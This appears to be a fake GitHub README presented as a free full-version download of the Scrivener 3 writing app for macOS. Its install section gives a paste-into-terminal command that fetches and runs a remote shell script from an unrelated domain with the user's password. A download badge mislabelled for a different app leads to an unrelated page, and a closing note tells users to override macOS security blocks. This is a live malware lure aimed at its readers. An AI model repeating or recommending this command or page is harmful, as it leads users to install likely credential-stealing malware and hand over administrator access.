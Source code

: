 <p align="center">
  <img src="https://sm.pcmag.com/pcmag_au/review/s/scrivener/scrivener_fh2p.jpg" alt="Scrivener 3 Mac Banner" />
</p>

<h1 align="center">Scrivener 3 for macOS</h1>

<p align="center">
  ✍️ Write, organize, and publish long-form content with a tool made for authors and creatives.  
  <br><br>
  ✅ Optimized for Apple Silicon and Intel  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/118" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20FLINTO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Scrivener 3 for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://www.literatureandlatte.com/wp-content/uploads/2017/11/LaptopScriv.jpg" alt="Scrivener 3 Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Scrivener 3?

**Scrivener 3** is a comprehensive writing environment for macOS, trusted by novelists, screenwriters, academics, and professionals worldwide. It allows you to break down long texts into manageable parts, move sections freely, and focus on the structure of your work as much as the words themselves.

With features like the corkboard, outliner, research storage, and manuscript compile tools, Scrivener adapts to your creative process — whether you're writing fiction, screenplays, research papers, or blog series.

Optimized for **macOS Sonoma, Ventura, Monterey** and running natively on **Intel and Apple Silicon (M1/M2/M3)**, Scrivener 3 gives writers the tools to start, shape, and finish any large-scale writing project.

---

## ✅ Why Choose Scrivener 3?

- 🧾 **Corkboard View** – Organize sections with drag-and-drop cards  
- 📚 **Outliner & Structure** – Manage scenes, chapters, and metadata  
- ✍️ **Focused Writing Mode** – Distraction-free full-screen interface  
- 🧠 **Research Binder** – Store images, PDFs, notes, and web clippings  
- 🔁 **Revision Tracking** – Label, color-code, and snapshot your drafts  
- 🧩 **Compile & Export** – Output to DOCX, PDF, ePub, Final Draft & more  
- 🎯 **Templates for All Formats** – Novels, scripts, nonfiction, etc.  
- ⚡ **Built for Mac** – Runs fast and smooth on Apple Silicon  

> Whether you're outlining a novel or finalizing a thesis, **Scrivener 3** keeps everything in one place — from concept to publication.

---

## 📸 More Screenshots

<p align="center">
  <img src="https://www.literatureandlatte.com/wp-content/uploads/2023/09/1-four-screens.jpg" alt="Scrivener 3 Corkboard Screenshot" />
  <br><br>
  <img src="https://i.etsystatic.com/40150833/r/il/6f3c45/5833317922/il_1080xN.5833317922_dk3b.jpg" alt="Scrivener 3 Compile Tool Screenshot" />
</p>

---

## 🚀 Key Features

- 📚 Long-form writing organizer  
- 🧠 Research & media binder  
- ✍️ Distraction-free writing mode  
- 🧾 Outliner & corkboard views  
- 📤 Compile to multiple formats  
- 📁 Project and session targets  
- 🎬 Scriptwriting support  
- 🖥️ Native for macOS Sonoma & M1/M2/M3  

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Scrivener 3 under "App Management"

---

## 🔍 Tags

```text
scrivener 3 mac download, scrivener for macbook, scrivener apple silicon, scrivener 3 full version mac, scrivener for m1 mac, scrivener writing software, longform writing macos, download scrivener 3 macos, scrivener 3 intel m1 support, scrivener ventura compatible, mac novel writing app, scrivener 3 m1 native, best writing tool for mac, scrivener macbook pro, scrivener 3 standalone installer
